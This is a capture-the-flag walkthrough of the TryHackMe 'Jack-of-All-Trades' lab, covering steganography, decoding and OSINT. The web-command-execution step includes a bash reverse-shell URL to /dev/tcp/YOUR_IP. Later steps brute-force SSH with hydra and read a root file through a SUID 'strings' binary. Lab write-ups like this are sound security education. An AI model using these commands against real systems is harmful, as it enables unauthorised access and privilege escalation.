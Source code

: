 # [Jack-of-All-Trades](https://tryhackme.com/room/jackofalltrades)

First as always, `nmap`

```
# Nmap 7.91 scan initiated Fri Jul 23 03:46:29 2021 as: nmap -p22,80 -sCV -oN nmap box.ip
Nmap scan report for box.ip (10.10.192.44)
Host is up (0.49s latency).

PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 23 03:47:28 2021 -- 1 IP address (1 host up) scanned in 58.45 seconds
```

Unlike usual, we have SSH on port 80 and HTTP on port 22. Let's first check out the web service on port 22.

We see the user named "Jack", a potential username noted. Viewing the source of the page ...

![](src1.png)

... we see a note pointing us to the page at `/recovery.php`, as well as a base64-encoded string which when decoded says the following:

> Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u\*\*\*\*

Another name: "Johny Graves", more potential usernames.

Going to `/recovery.php`, we see username & password fields for login. Looking at its source, we see another long comment, so let's make note of it.

![](recovery.png)

Trying the found usernames with the above password don't work, so let's think outside the box and do some OSINT.

Looking up the person named "Johny Graves" in the message, with double quotes to filter out named-alikes, we find his MySpace page.

![](lookup.png)

Visiting his MySpace profile, we see his "favorite crypto method".

![](myspace.png)

> My Favourite Crypto Method:First encode your message with a ROT13 cipher. Next Convert it to Hex. Finally convert the result into Base32.It's uncrackable!

The long comment in the source code of `/recovery.php` looks like base32. Knowing the encoding method, we can easily reverse it in [CyberChef](https://gchq.github.io/CyberChef.) and get another message.

![](cyberchef.png)

> Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S

Visiting the page `bit.ly/2TvYQ2S` gets us to a Wikipedia page about the [Stegosauria](https://en.wikipedia.org/wiki/Stegosauria) so I'm guessing it's pointing us towards steganography. Going back to the initial landing page, we have a Stegosauria image, so let's download it and try some stego tools on it.

Running `steghide` on it with the previously found password `u****`, we get the file `creds.txt`.

```sh
$ steghide extract -sf stego.jpg
Enter passphrase:
wrote extracted data to "creds.txt".
Z ❯ ~/ctf/thm/jackofalltrades
$ steghide extract -sf stego.jpg
Enter passphrase:

Z ❯ ~/ctf/thm/jackofalltrades
$ cat creds.txt
Hehe. Gotcha!

You're on the right path, but wrong image!
```

There was and image of a jack in the box, so let's do the same on it.

```sh
Z ❯ ~/ctf/thm/jackofalltrades
$ steghide extract -sf jackinthebox.jpg
Enter passphrase:
steghide: could not extract any data with that passphrase!
```

Looking back, there's still 1 image left: the header, so let's try the same thing.

```sh
Z ❯ ~/ctf/thm/jackofalltrades
$ cat cms.creds
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: ********
```

Using the found credentials, we can log into `/recovery.php` and on the logged in page we have a message.

> GET me a 'cmd' and I'll run it for you Future-Jack.

This seems to be telling us to put a `cmd=` parameter in a `GET` request to have the server run some code, so let's try that.

![](cmd.png)

Seems we have code execution so let's get a reverse shell.

```sh
http://box.ip:22/nnxhweOV/index.php?cmd=bash%20-c%20'exec%20bash%20-i%20&%3E/dev/tcp/YOUR_IP/1337%20%3C&1'
```

Unfortunately, we can't seem to get a shell so let's manually enumerate. I created a small script to make it easier, but you can do it in the browser.

Looking at `/home`, we seem to have 2 files with about the same name: "jacks_password_list"

```sh
>>> ls -la /home
drwxr-xr-x  3 root root 4096 Feb 29  2020 .
drwxr-xr-x 23 root root 4096 Feb 29  2020 ..
drwxr-x---  3 jack jack 4096 Feb 29  2020 jack
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
```

Running `cat /home/jacks_password_list` gives us a password list we can use for brute-forcing. Besides the `/recovery.php` page, the only thing we currently need credentials for is SSH so let's brute-force it with the username "jack".

```sh
$ hydra -l jack -P pass box.ip ssh -s 80
```

With this, we have credentials for SSH as jack on the machine.

```sh
jack@jack-of-all-trades:~$ ls
user.jpg
```

The user flag is in `user.jpg` so we copy it to our local machine.

```sh
scp -P 80 jack@box.ip:user.jpg .
```

If, like me, you're too lazy to type out the flag, you can extract the text & flag with `tesseract`

```sh
tesseract user.jpg user
```

A common method of privilege escalation is through SUID bits, so let's look for binaries with SUID bit set

```sh
jack@jack-of-all-trades:~$ find / -perm /4000 -user root -ls 2>/dev/null
135127  456 -rwsr-xr-x   1 root     root       464904 Mar 22  2015 /usr/lib/openssh/ssh-keysign
134730  288 -rwsr-xr--   1 root     messagebus   294512 Feb  9  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
135137   12 -rwsr-xr-x   1 root     root        10248 Apr 15  2015 /usr/lib/pt_chown
132828   44 -rwsr-xr-x   1 root     root        44464 Nov 20  2014 /usr/bin/chsh
132826   56 -rwsr-xr-x   1 root     root        53616 Nov 20  2014 /usr/bin/chfn
133088   40 -rwsr-xr-x   1 root     root        39912 Nov 20  2014 /usr/bin/newgrp
133270   28 -rwsr-x---   1 root     dev         27536 Feb 25  2015 /usr/bin/strings
133273  148 -rwsr-xr-x   1 root     root       149568 Mar 12  2015 /usr/bin/sudo
133111   56 -rwsr-xr-x   1 root     root        54192 Nov 20  2014 /usr/bin/passwd
132940   76 -rwsr-xr-x   1 root     root        75376 Nov 20  2014 /usr/bin/gpasswd
133161   88 -rwsr-sr-x   1 root     mail        89248 Feb 11  2015 /usr/bin/procmail
138022 3052 -rwsr-xr-x   1 root     root      3124160 Feb 17  2015 /usr/sbin/exim4
    85   40 -rwsr-xr-x   1 root     root        40000 Mar 29  2015 /bin/mount
   131   28 -rwsr-xr-x   1 root     root        27416 Mar 29  2015 /bin/umount
   114   40 -rwsr-xr-x   1 root     root        40168 Nov 20  2014 /bin/su
```

Here, we can see `strings` with SUID set, which is unusual given its application. Following [GTFObins](https://gtfobins.github.io/gtfobins/strings/#suid), we can read the root flag with `strings`.

```sh
jack@jack-of-all-trades:~$ strings /root/root.txt
```

With that, we should have the root flag.
